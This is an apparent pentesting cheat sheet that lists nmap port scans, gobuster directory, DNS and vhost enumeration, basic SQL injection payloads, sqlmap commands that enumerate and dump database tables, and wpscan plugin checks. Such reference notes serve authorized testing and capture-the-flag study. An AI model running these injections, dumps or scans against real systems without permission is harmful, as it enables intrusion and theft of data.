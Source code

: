 # Enumeration 

## nmap

Quick scan
```bash
nmap <ip> --top-ports 30
```

Default scan
```bash
nmap <ip> -sV -sC
```

Detailed scan
```bash
nmap <ip> -p-
```

## Directory enumeration
```
gobuster dir -u <url> -w <wordlist>
```

## Domain enumeration
```
gobuster dns -d <domain> -w <wordlist>
```

## Vhost enumeration

```
gobuster vhost -u <url> --apend-domain -w <wordlist>
```

[ffuf scans much faster using HOST header](http://ffuf.me/sub/vhost)

## SQLInjection

### Payloads
Basic injections to test for strings:
```
bla' or 1=1; --
bla" or 1=1; --
bla' or 1=1; #
bla" or 1=1; #
```

Basic injections to test for integers:
```
1234 or 1=1; --
1234 or 1=1; #
```

Detect database type: [Techniques here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/README.md#dbms-identification)

### SQLMap

Use sqlmap the following way if the string is closed via `"` ([details](https://github.com/sqlmapproject/sqlmap/wiki/Usage#custom-injection-payload))
```
sqlmap http://host.de/?para=anything --prefix'"'
```

Use sqlmap by defining raw request (e.g. raw http in request.req):
```
sqlmap -r request.req -p <parameter>
```

sqlmap enumeration after successful injection:
```bash
# show all databases
sqlmap <url> -p <parameter> --dbs
# show all tables in database
sqlmap <url> -p <parameter> -D <database> --tables
# dump table
sqlmap <url> -p <parameter> -D <database> -T <table> --dump
```

## Wordpress
Use `wp-scan` to enumerate WordPress sites (use [api-token](https://wpscan.com/) to list vulnerabilities of found wp version/plugins).
 ```bash
 # enumerate vulnerable plugins (aggressive checks)
wp-scan --url <url> --enumerate vp --plugins-detection aggressive
 ```